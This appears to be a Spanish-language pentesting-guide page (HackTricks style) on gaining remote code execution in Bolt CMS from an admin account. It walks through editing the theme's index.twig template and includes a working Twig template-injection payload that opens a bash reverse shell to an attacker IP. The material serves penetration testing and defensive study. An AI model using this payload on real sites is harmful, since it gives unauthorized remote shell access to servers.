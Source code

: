 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Después de iniciar sesión como administrador (ve a /bot para acceder al aviso de inicio de sesión), puedes obtener RCE en Bolt CMS:

- Selecciona `Configuration` -> `View Configuration` -> `Main Configuration` o ve a la ruta de URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Verifica el valor del tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Selecciona `File management` -> `View & edit templates`
- Selecciona la base del tema encontrada en el paso anterior (`base-2021` en este caso) y selecciona `index.twig`
- En mi caso, esto está en la ruta de URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Establece tu payload en este archivo a través de [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), como: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Y guarda los cambios

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Limpia la caché en `Maintenance` -> `Clear the cache`
- Accede nuevamente a la página como un usuario regular, y el payload debería ejecutarse

{{#include ../../banners/hacktricks-training.md}}
